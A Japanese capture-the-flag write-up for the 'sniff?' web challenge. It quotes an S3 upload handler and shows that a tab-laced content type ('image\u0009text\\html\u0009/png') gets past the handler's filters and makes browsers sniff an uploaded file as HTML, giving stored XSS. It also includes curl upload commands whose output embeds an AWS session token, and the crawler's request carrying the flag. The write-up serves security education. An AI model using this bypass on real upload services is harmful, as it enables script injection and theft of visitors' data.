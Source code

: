 # sniff?:Advanced:150pts

- [Target](https://d25jbnwf59t432.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1rJLMrJ9WVKGb4sr8Em9eKga8QWLG49EX/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same.(scenario1)  

[https://d25jbnwf59t432.cloudfront.net/](https://d25jbnwf59t432.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様なようだ。  
URLにアクセスする同様のファイルアップロードサイトのようだ。  
![site.png](site/site.png)  
ソースの主要箇所は以下であった。  
```ts
~~~
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const denyStrings = new RegExp('[;,="\'()]');

  if (denyStrings.test(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid content type' });
  }

  if (!request.body.contentType.startsWith('image') || !['jpeg', 'jpg', 'png', 'gif'].includes(request.body.contentType.split('/')[1])) {
    return reply.code(400).send({ error: 'Invalid image type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentType: `${request.body.contentType.split('/')[0]}/${request.body.contentType.split('/')[1]}`,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
`contentType`がチェックされており、正規表現`'[;,="\'()]'`に含まれたものは使えない。  
`startsWith('image')`なので文字列で`image`から始まる必要がある。  
さらに`['jpeg', 'jpg', 'png', 'gif'].includes(request.body.contentType.split('/')[1])`により`/`以降の文字列が画像である必要もある。  
また、最終的に`${request.body.contentType.split('/')[0]}/${request.body.contentType.split('/')[1]}`が`ContentType`となるので`/`を複数入れても意味がない。  
要するに`image[何らかの文字列]/png`とする必要がありそうだ。  
いろいろと試行錯誤していると`image\u0009text\\html\u0009/png`の際にXSSが発動した。  
なぜだかわからないがあまりにも`contentType`が狂っていると、MIMEスニッフィングが行われるようだ。  
以下のようにServer Side Uploadと同じ、XSSを含むHTMLをアップロードする。  
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"contentType":"image\u0009text\\html\u0009/png","length":221}' --upload-file xs3.html 'https://d25jbnwf59t432.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-adv-2-upload.s3.ap-northeast-1.amazonaws.com/upload/f1b64093-7988-4f3a-967f-6ecfed36e322?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4N6PTWN6G%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T082711Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEND%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkcwRQIhAOo7zbG1I%2BNtbupSXcfsV1bLnAsFFxtnIh8oKWlCLrVOAiBkvoxqpzVlI01Rm0xVzi8vZsIjhsewGladyf0ippXUfiqtAwjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDMwODUyMTQwNzczNiIM9NMc3UcP7bO3aBxVKoEDh92Uizj9m8MJvmLu74BR%2FrXa7RlVPbfFCX24Elp0LoKy7Fw0TkXXYa9XRiS1L4fcpLIRxtmn69kgWCv5DnuO6p8sBwtL%2BVXdTsRsKYxA0fh1T9LZh7kVl8Oid6v2YhK%2BwNhoE%2F46FXl%2Bg3UfzU5rSt0PhkF5Ip%2BvTTZ4Ew%2B%2FNTY06IlRrjRwljYDWsbeWiUKv8fL1YbLjbhbshjOCdCCCTqddv6JE24UmioTUTpvwO4YlucpCfV1lsXxKEBNk5FiSkMfHx4G4XyT0Fcm0I3mbuI%2BOuGP41YFet503302CT0Pxy%2B4J1X1ub1IF6bSwPoDyPf28QG%2BkxGkM0B80EZfFABWbmd2o6ifVyEdKsqjXHFcZ4iosNH6Dv4A5Dhgra%2BxQvjhLwi4AnjR1aE8yhJ4MlrxH63pgJEgIppDHjV71UvKdFjZLNVXpXo3asANVLkFUvNbuCGXWCI7Icb2XaixHq9oaQaqnvfiB3hIR0yM3AXVOIkAoPI0GbP%2FjvtImWqvTDDd9pmwBjqdAQp4vitpaFYofVMS0bySg7TppWLUG%2BuVjsVWmF7ir4U1auAnp%2BqkqxD4eEFmKGmVNNrSU5PJS53oFHpL3OaChcVUYOHM9lnFqXTnI%2FUxt9qKEw%2FwvaUde6iYnO5%2FtovCJ7YOg1DFCMbumrjKVaTUh7iGTaINgYOt8QrOvlRYTAMsJwNwiNMiNg3F3wY2N8XBDow3Em9w6bj3EYnIUzk%3D&X-Amz-Signature=ce728694851343b36c8d0a3bb1f2dc14b132812c0a808186f5cb87c905a7760d&X-Amz-SignedHeaders=content-type%3Bhost&x-id=PutObject","filename":"f1b64093-7988-4f3a-967f-6ecfed36e322"}
$ curl -X PUT -H $'Content-Type: image\ttext\\html\t/png' --upload-file xs3.html 'https://uploadbucket-5b1bc63390-adv-2-upload.s3.ap-northeast-1.amazonaws.com/upload/f1b64093-7988-4f3a-967f-6ecfed36e322?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4N6PTWN6G%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T082711Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEND%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkcwRQIhAOo7zbG1I%2BNtbupSXcfsV1bLnAsFFxtnIh8oKWlCLrVOAiBkvoxqpzVlI01Rm0xVzi8vZsIjhsewGladyf0ippXUfiqtAwjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDMwODUyMTQwNzczNiIM9NMc3UcP7bO3aBxVKoEDh92Uizj9m8MJvmLu74BR%2FrXa7RlVPbfFCX24Elp0LoKy7Fw0TkXXYa9XRiS1L4fcpLIRxtmn69kgWCv5DnuO6p8sBwtL%2BVXdTsRsKYxA0fh1T9LZh7kVl8Oid6v2YhK%2BwNhoE%2F46FXl%2Bg3UfzU5rSt0PhkF5Ip%2BvTTZ4Ew%2B%2FNTY06IlRrjRwljYDWsbeWiUKv8fL1YbLjbhbshjOCdCCCTqddv6JE24UmioTUTpvwO4YlucpCfV1lsXxKEBNk5FiSkMfHx4G4XyT0Fcm0I3mbuI%2BOuGP41YFet503302CT0Pxy%2B4J1X1ub1IF6bSwPoDyPf28QG%2BkxGkM0B80EZfFABWbmd2o6ifVyEdKsqjXHFcZ4iosNH6Dv4A5Dhgra%2BxQvjhLwi4AnjR1aE8yhJ4MlrxH63pgJEgIppDHjV71UvKdFjZLNVXpXo3asANVLkFUvNbuCGXWCI7Icb2XaixHq9oaQaqnvfiB3hIR0yM3AXVOIkAoPI0GbP%2FjvtImWqvTDDd9pmwBjqdAQp4vitpaFYofVMS0bySg7TppWLUG%2BuVjsVWmF7ir4U1auAnp%2BqkqxD4eEFmKGmVNNrSU5PJS53oFHpL3OaChcVUYOHM9lnFqXTnI%2FUxt9qKEw%2FwvaUde6iYnO5%2FtovCJ7YOg1DFCMbumrjKVaTUh7iGTaINgYOt8QrOvlRYTAMsJwNwiNMiNg3F3wY2N8XBDow3Em9w6bj3EYnIUzk%3D&X-Amz-Signature=ce728694851343b36c8d0a3bb1f2dc14b132812c0a808186f5cb87c905a7760d&X-Amz-SignedHeaders=content-type%3Bhost&x-id=PutObject'
```
アップロードに成功したら`https://d25jbnwf59t432.cloudfront.net/upload/f1b64093-7988-4f3a-967f-6ecfed36e322`をクローラへ投げてやる。  
すると以下のリクエストを受け取る。  
```
GET
/?satoki=flag=flag{c4ca4238a0b923820dcc509a6f75849b}
```
flagが得られた。  

## flag{c4ca4238a0b923820dcc509a6f75849b}